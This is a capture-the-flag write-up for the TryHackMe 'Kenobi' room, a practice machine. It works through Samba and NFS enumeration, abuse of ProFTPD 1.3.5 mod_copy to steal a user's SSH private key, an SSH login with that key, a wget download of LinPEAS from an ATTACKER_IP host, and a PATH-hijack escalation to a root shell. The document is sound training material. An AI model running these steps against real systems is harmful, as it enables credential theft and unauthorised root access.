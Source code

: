 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Easy     |  | 10.10.243.180 |  | [Kenobi](https://tryhackme.com/room/kenobi) |  |

<br />

We start things off with a basic `nmap` scan on the server. We can run 2 scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that 7 ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 & 445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba (SMB) shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, 3 shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`:

```
smbclient //10.10.243.180/SHARE_NAME
```

I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to supply a password.

Once in, we can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a single text file: **log.txt**

**log.txt** was a ProFTPD configuration file which gave us a lot of interesting and potentially useful information about the server. I took note of the file and moved on first.

Next, let's tackle port **111**, which hosts **RPC**. 

---

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

---

In our case, port 111 gives us access to the **Network File System (NFS)** protocol, which runs using RPC. We can use `nmap` to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's move on to the **FTP** server.

The first thing we should do is to enumerate the version of ProFTPD running. To do so, we can use `nc` to connect to the FTP server and find out the version from the response banner:

```
nc 10.10.243.180 21
```

The response tells us that the ProFTPD version is **1.3.5**

Now that we know the version of ProFTPD running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit ProFTPD 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFTPD. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

Remember the **log.txt** file from earlier? It actually reveals that the **private SSH key** of the user, kenobi, can be found in /home/kenobi/.ssh/id_rsa. Since we know that we can mount onto and access /var on the target machine, we can copy kenobi's private key over to /var and obtain it there.

With the private key, we'll then be able to access the machine via SSH as the user kenobi!

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home directory to the **/var/tmp** directory on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory called 'kenobiNFS' in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the /var/tmp directory on the target machine by visting /mnt/kenobiNFS/ on our local machine:

![screenshot7](../assets/images/kenobi/screenshot7.png)

We can then obtain the private key file!

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions of the key are set to be **read and write by owner only**. We do this with `chmod`:

```
chmod 600 id_rsa  // 400 works too
```

With the permissions set, let's now ssh into the machine as kenobi:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's home directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. 

To find these SUID-bit set binaries, the room taught me to use the `find` command:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) instead.

To transfer LinPEAS over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the linpeas.sh script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port 8000. 

Next, I used `wget` on the target machine to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting binary that had its SUID-bit set: **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running this binary, we are presented with some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID-bit being set).

Using the `strings` command, we can look for human-readable strings within the menu binary:

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. using `curl` instead of `/usr/bin/curl`).

Hence, we can manipulate our **PATH** to exploit this and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is fully accessible by setting its permissions to be read-write-executable by all users:

```
chmod 777 curl
```

Next, we put its file location into our **PATH**. In my case, since I created the `curl` file in /tmp, I'll add that directory into my PATH:

```
export PATH=/tmp:$PATH
```

Now, when /usr/bin/menu is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in /tmp first and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from /root.





